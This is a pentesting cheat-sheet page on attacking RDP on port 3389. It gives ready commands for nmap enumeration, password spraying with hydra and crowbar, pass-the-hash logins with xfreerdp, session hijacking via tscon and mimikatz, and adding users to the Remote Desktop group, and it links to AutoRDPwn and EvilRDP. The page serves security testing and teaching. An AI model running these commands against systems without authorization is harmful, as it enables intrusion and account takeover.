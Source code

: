 # 3389 - Pentesting RDP





<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Basic Information

Developed by Microsoft, the **Remote Desktop Protocol** (**RDP**) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, **RDP** client software is utilized by the user, and concurrently, the remote computer is required to operate **RDP** server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

**Default port:** 3389

```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```

## Enumeration

### Automatic

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Be careful, you could lock accounts**

### **Password Spraying**

**Be careful, you could lock accounts**

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### Connect with known credentials/hash

```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```

### Check known credentials against RDP services

rdp\_check.py from impacket let you check if some credentials are valid for a RDP service:

```bash
rdp_check <domain>/<name>:<password>@<IP>
```

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Attacks**

### Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```

**Access to the selected session**

```bash
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

**Important**: When you access an active RDP sessions you will kickoff the user that was using it.

You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

#### **Mimikatz**

You could also use mimikatz to do this:

```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```

### Sticky-keys & Utilman

Combining this technique with **stickykeys** or **utilman you will be able to access a administrative CMD and any RDP session anytime**

You can search RDPs that have been backdoored with one of these techniques already with: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

If someone from a different domain or with **better privileges login via RDP** to the PC where **you are an Admin**, you can **inject** your beacon in his **RDP session process** and act as him:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group

```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```

## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** is a post-exploitation framework created in Powershell, designed primarily to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to **view his victim's desktop without his consent**, and even control it on demand, using tools native to the operating system itself.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
  * Control mouse and keyboard in an automated way from command line
  * Control clipboard in an automated way from command line
  * Spawn a SOCKS proxy from the client that channels network communication to the target via RDP
  * Execute arbitrary SHELL and PowerShell commands on the target without uploading files
  * Upload and download files to/from the target even when file transfers are disabled on the target

## HackTricks Automatic Commands

```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for RDP
  Note: |
    Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device. 

    https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
  Name: Nmap
  Description: Nmap with RDP Scripts
  Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}




